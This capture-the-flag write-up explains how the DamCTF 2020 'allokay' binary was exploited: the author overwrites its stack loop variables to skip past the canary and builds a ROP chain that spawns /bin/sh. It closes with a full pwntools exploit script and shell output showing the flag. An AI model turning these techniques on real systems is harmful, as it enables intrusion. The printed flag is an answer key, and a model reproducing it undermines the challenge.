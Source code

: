 ```yaml
---
layout: post
title: Dam CTF 2020 allokay (pwn)
---
```


Running checksec on the binary, we can see that many standard exploit mitigation technologies are present: stack canaries, non-executable stack, no RUNPATH. PIE is disabled, and the debugging symbols are still present.

## Initial dynamic analysis

The program asks for the number of favorite numbers the user has. Next, the user has to put in all of his favorite numbers. One noticable thing is that the program does not handle certain numbers well, for example, when the user has 10 favorite numbers,the program stops after 6 numbers.

![Initial dynamic analysis]({{site.baseurl}}/_posts/2020-10-11 20_46_01-allokay1.png)

## Initial Static analysis

Since the symbols are still present in the binary, loading the program into IDA gave us a clear overview of the execution flow and names of the functions. In a function called "get_input", the program gathers all of the user's favorite numbers. There is a stack cookie present in the function, so simply feeding a lot of data to overwrite the instruction pointer would be impossible.

## The "6 number" problem

As seen in the initial dynamic analysis, the program exits if more than 6 numbers are put into the program. This is because the value for the number of programs and the iterator are both stored on the stack, but the user's favorite numbers are stored on the stack too. Since the program does not dynamically create enough space on the stack depending on the amount of favorite numbers the user has, the numbers will overwrite both the iterator and the maximum amount of numbers. Since it overwrites the max numbers first, and since the number put in is very small, the numbers_max variable will be set to 0, and the loop condition is false. The loop will break, and the program will exit.

One interesting property of the "get_input" function is that the iterator determines where on the stack the input is being written.

![Number positioning]({{site.baseurl}}/_posts/2020-10-11 20_59_28-allokay2.png)

Since we control the iterator, we control where the program writes the data put in by the user, and since we control the numbers_max variable, we control how many writes it will perform before leaving the loop. This way, we can bypass the stack cookie and overwrite the saved return address with the address of "win()". It is important to note that the user has to put in the attacker data in the form of integers, since the scanf() function that gets the data uses the format string "%ld". For example, if we want to call win(), we would need to get the address in hexadecimal and convert it to decimal.

## /bin/sh

Unfortunately, the win() function requires an argument: the path for execve() to execute. The argument needs to be stored in rdi, so we first need to build a ropchain that puts "/bin/sh" into rdi. The binary itself does not contain that string, and simply popping the /bin/sh string from libc would not work either, since the remote server has ASLR enabled. Therefore, the ropchain needs to make a call to some function that gets input from the user and stores it somewhere the attacker intended.

The first function I considered was fgets(), since we could easily put in the literal string "/bin/sh" into stdin, and store it wherever we want. Unfortunately, there is no rop gadget that controls the rdx register, which is the third argument for the fgets() function. Instead, scanf() can be used to write the arbitrary data. One thing to note is that there is no "%s" format string in the binary, so we have to reuse the "%ld" string. This means that we need to put in the "/bin/sh" string in an integer format by converting the string to decimal with the ASCII table. For the write location of the "/bin/sh" string, I choose the .bss segment.

We now have enough information to build an exploit script and carry out an attack.

```
#!/bin/python3

from pwn import *

numbers_max_overwrite = b'85899345931'
iterator_overwrite = b'42949672971'
poprdi = b'4196659'
ld = b'4196717'
poprsi_popr15 = b'4196657'
binsh_location = b'6295680'
scanf = b'4195936'
win = b'4196199'
binsh = b'29400045130965551'

r = remote('chals.damctf.xyz', 32575)

r.recvuntil(b'How many favorite numbers do you have?\n')
r.sendline(b'10')

for x in range(5):
    r.recvuntil(b': ')
    r.sendline(b'2')

r.recvuntil(b': ')
r.sendline(numbers_max_overwrite)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(iterator_overwrite)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(ld)
r.recvuntil(b': ')
r.sendline(poprsi_popr15)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(scanf)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(win)
r.sendline(binsh)

r.interactive()
```

Script output:
```console
[+] Opening connection to chals.damctf.xyz on port 32575: Done
[*] Switching to interactive mode
$ ls
allokay
flag
$ cat flag
dam{4Re_u_A11_0cK4y}
```
